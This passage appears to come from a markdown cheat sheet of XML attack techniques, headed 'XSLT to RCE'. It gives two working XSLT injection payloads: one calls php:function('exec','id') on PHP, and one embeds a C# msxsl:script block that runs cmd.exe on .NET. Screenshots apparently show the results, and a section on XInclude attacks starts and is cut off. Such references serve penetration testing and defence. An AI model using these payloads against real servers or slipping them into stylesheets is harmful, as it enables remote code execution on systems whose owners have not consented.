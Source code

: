 **XSLT to RCE !!!**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" 
	xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
	xmlns:php="http://php.net/xsl" exclude-result-prefixes="php">
<xsl:template match="/">
	<xsl:value-of select="php:function('exec','id')"/>
</xsl:template>
</xsl:stylesheet>
```

<img src="https://i.ibb.co/jrZkwz0/Screenshot-2020-03-21-at-3-29-56-PM.png" align="center" height="250" width="862" >
</br>
<img src="https://i.ibb.co/7WpC6h3/Screenshot-2020-03-21-at-3-30-44-PM.png" align="center" height="244" width="862" >
</br>

Microsoft technologies : 

XSLT Stylesheet Scripting Using <msxsl:script>

Remote Code Execution with Embedded Script Blocks .Net with C# code base.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
		xmlns:msxsl="urn:schemas-microsoft-com:xslt"
		xmlns:user="urn:my-scripts">
	<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[ 
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
	</msxsl:script>
	<xsl:template match="/emp">
		--- BEGIN COMMAND OUTPUT ---
		<xsl:value-of select="user:execute()"/>
		--- END COMMAND OUTPUT ---
	</xsl:template>
</xsl:stylesheet>
```

### 2.6 XInclude attack

**What is XInclude.**
Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a backend SOAP request, which is then processed by the backend SOAP service.
